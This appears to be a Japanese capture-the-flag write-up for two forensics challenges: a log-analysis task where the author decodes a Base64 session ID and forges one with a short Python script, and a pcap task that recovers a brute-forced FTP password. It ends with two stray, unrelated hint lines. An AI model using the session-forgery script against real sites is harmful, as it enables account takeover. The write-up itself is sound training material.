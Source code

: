 > 添付のログファイルから脆弱性を特定し下記のサイトからフラグを手に入れてください。
> https://fr1-prod.2025winter-cybercontest.net/
> 【回答書式】 flag{n桁のアルファベット}

次のようなログファイルが与えられる。

```
192.168.100.103 - - [10/Jul/2024:15:36:01 +0900] "GET /index.php HTTP/1.1" 200 424
192.168.100.103 - - [10/Jul/2024:15:36:03 +0900] "POST /auth.php HTTP/1.1" 302 -
192.168.100.103 - - [10/Jul/2024:15:36:05 +0900] "GET /mypage.php?sesid=MTcyMjMxMjQxNywzLHVzZXIzCg== HTTP/1.1" 200 281
192.168.100.106 - - [10/Jul/2024:15:40:03 +0900] "GET /index.php HTTP/1.1" 200 424
192.168.100.106 - - [10/Jul/2024:15:40:08 +0900] "POST /auth.php HTTP/1.1" 302 -
192.168.100.106 - - [10/Jul/2024:15:40:11 +0900] "GET /mypage.php?sesid=MTcyMjM0Nzk5OSw2LHVzZXI2Cg== HTTP/1.1" 200 281
192.168.100.106 - - [11/Jul/2024:09:36:24 +0900] "GET /index.php HTTP/1.1" 200 424
192.168.100.106 - - [11/Jul/2024:09:36:29 +0900] "POST /auth.php HTTP/1.1" 302 -
192.168.100.106 - - [11/Jul/2024:09:36:30 +0900] "GET /ctf/fr1/index.php?msg=2 HTTP/1.1" 200 478
192.168.100.106 - - [11/Jul/2024:09:45:54 +0900] "POST /auth.php HTTP/1.1" 302 -
192.168.100.106 - - [11/Jul/2024:09:46:00 +0900] "GET /mypage.php?sesid=MTc2NzIyNTU5OSw2LHVzZXI2 HTTP/1.1" 200 281
```
試しに、`MTcyMjMxMjQxNywzLHVzZXIzCg==`を[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=TVRjeU1qTXhNalF4Tnl3ekxIVnpaWEl6Q2c9PQ)でデコードしてみると、`1722312417,3,user3`となった。どうやら、セッションIDがクエリパラメータを通して設定できてしまう脆弱性らしい。

最初の`1722312417`はUNIX時間っぽいのでおそらく有効期限だろう。あとは、残りの２つのパラメータを適当にいじったら、次のコードでフラグを得られた。

```python
import requests
import base64
URL = "https://fr1-prod.2025winter-cybercontest.net/"

s = requests.session()
r = s.get(URL + "mypage.php", params={
    "sesid": base64.b64encode(b'1822312417,1,user1')
})
print(r.text)
```


## [FR] 成功の証 (200pts)
> フラグは攻撃者が見つけ出した「パスワード」とします。
> 【回答書式】 flag{パスワード}

pcapファイルにはいくつかのTCP通信が記録されているので、右クリック→Follow→TCP Streamで一つ一つ確認する。そうすると、Stream 188が以下のようになっていることがわかる。

```
220 (vsFTPd 3.0.3)
USER agita
331 Please specify the password.
PASS wwwww
530 Login incorrect.
USER agita
331 Please specify the password.
PASS yyyyyyyy
530 Login incorrect.
USER agita
331 Please specify the password.
PASS zyyzzyzy
230 Login successful.
```


[hint]: overflow == 0x0
[hint]: overflow == 0x3534333231307a79